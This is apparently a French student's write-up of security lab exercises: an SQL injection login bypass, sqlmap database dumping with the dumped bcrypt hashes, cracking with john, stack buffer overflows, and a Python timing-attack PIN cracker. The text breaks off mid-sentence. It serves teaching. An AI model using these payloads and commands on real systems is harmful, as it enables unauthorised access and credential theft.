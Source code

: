 # Exercice 1 :

### Question 1 :

On peut effectuer une injection SQL en commentant le reste de la commande dans la partie de l'email. Après avoir facilement deviné que les mails était 'utilisateur'@myblog.com on peut automatiquement valider le mot de passe : 

    [user@myblog.com'; -- ] 
et n'importe quoi en mot de passe nous connecte sur le user mais aussi : 
    
    [admin@myblog.com'; -- ] 
et n'importe quoi en mot de passe nous connecte sur l'admin :)

### Question 2 :

--data nous permet d'inserer de nouvelles valeurs et donc de se créer un compte : 

    sqlmap -u http://172.19.19.19:8080/level1/login.php --data 'email=corentin&password=vivelasecu'

--dump nous permet en plus de récupérer la totalité de la bdd : 

    sqlmap -u http://172.19.19.19:8080/level1/login.php --data 'email=corentin&password=vivelasecu' --dump

on obtient alors les lignes suivantes : 

    id : 1
    email : admin@myblog.com
    is_admin : 1
    password : $2y$05$RkCmXfp3eLlDJ.ewxSgqv.vtcYKir7Y6UtGjN71Qiz0sSTDumfluu  

    id : 2
    email : user@myblog.com
    is_admin : 0
    password : $2y$05$WYB.xcOknDv4np0ozP2rq.9dInNYJJGPNARJUbdcZv38bAlzva/k.   

on retrouve alors les mots de passes avec 

    john --wordlist=rockyou.txt crack.txt 

en mettant les hash dans le fichier crack.txt , on obtiens notamment "zxcvbnm,./" pour l'admin

# Exercice 2 :

1. Quand on execute ./a.out, cela execute un programme qui attend une entrée. Une fois cette entrée donnée, le programme sort forcément "Try again?". Pour pouvoir changer la variable "modified" qui permet de changer la sortie de ce programme, il faut surcharger le buffer qui demande d'entrer une valeur. Le buffer étant de 64 caractères, il faut donc en entrer plus. La taille max d'un int est de 2147483647, donc d'une longueur de 10. Il faut donc mettre 75 caractères (64 du buffer et 10 de l'int, +1 pour dépasser la limite) afin de surcharger le buffer et la variable "modified", qui prendra donc une valeur différente de 0, ce qui permettra de changer la sortie et d'écrire "you have changed the ’modified’ variable".

# Exercice 3 : 

Voici la fonction "cracker" qui permet de retoruve le MDP en 3 minutes : 


    global password
    import time

    def checkpassword(l):
        for i in range(len(password)):
            time.sleep(1)
            if password[i]!= l[i]:
                return(False)

        return(True)

    password=input("L’ordi va deviner votre code PIN de chiffres entre 0 et 9 de longeur 6 : ")

    def cracker():
        passa=['0','0','0','0','0','0']
        for j in range(6):
            for k in range(9):
                print ('trying : ',''.join(passa))

                start = time.time()
                if(checkpassword(''.join(passa))==True):
                    print('Password is :',''.join(passa))
                    return
                end = time.time()
                print(end - start)
                if(end - start > 2 + j):
                    break
                passa[j]=str(1+int(passa[j]))

    cracker()


# Exercice 4 :

Comme pour l'exercice 2, il faut changer une valeur avec la surcharge du buffer. Mais cette fois il faut trouver une valeur exacte. Nous devons trouver un int égal à 0x61626364. En hexadécimal, cette valeur correspond à abcd. Par conséquent, nous devons rentrer abcd à la fin de la surcharge du buffer. Vu que nous rentrons dans un buffer, c'est donc in